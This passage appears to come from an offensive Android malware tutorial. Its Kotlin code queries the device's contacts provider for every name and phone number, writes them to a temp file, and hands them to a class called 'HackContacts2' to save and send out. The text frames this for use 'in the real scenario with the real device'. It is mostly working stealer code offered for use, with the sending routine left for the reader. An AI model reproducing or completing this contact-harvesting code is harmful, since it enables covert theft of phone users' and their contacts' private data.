 As you can see everything is wokred perfectly! =^..^=    

Of course in the real scenario with the real device, you need to create file with list of contacts, something like this:    

```kotlin

private fun createTempFile(prefix: String, suffix: String): File {
    val parent = File(System.getProperty("java.io.tmpdir")!!)
    val temp = File(parent, prefix + suffix)
    if (temp.exists()) {
        temp.delete()
    }
    try {
        temp.createNewFile()
    } catch (ex: IOException) {
        ex.printStackTrace()
    }
    return temp
}

private fun getContacts() {
    val contactsList = mutableListOf<String>()

    val contactsListFile = createTempFile("Contacts", ".txt")

    val contentResolver = context.contentResolver
    val cursor = contentResolver.query(
        ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
        null,
        null,
        null,
        null
    )

    cursor?.use {
        val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
        val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

        while (it.moveToNext()) {
            val name = it.getString(nameIndex)
            val number = it.getString(numberIndex)
            contactsList.add("$name: $number")
        }
    }

    // join all contacts into a big single text
    val contactsText = contactsList.joinToString(separator = "\n")

    if (contactsText.isNotEmpty()) {
        HackContacts2(context).saveAndSendFile(contactsListFile, contactsText)
    } else {
        HackContacts2(context).sendTextMessage("no contacts found.")
    } // something like this, you need to create function for sending msg
}
```
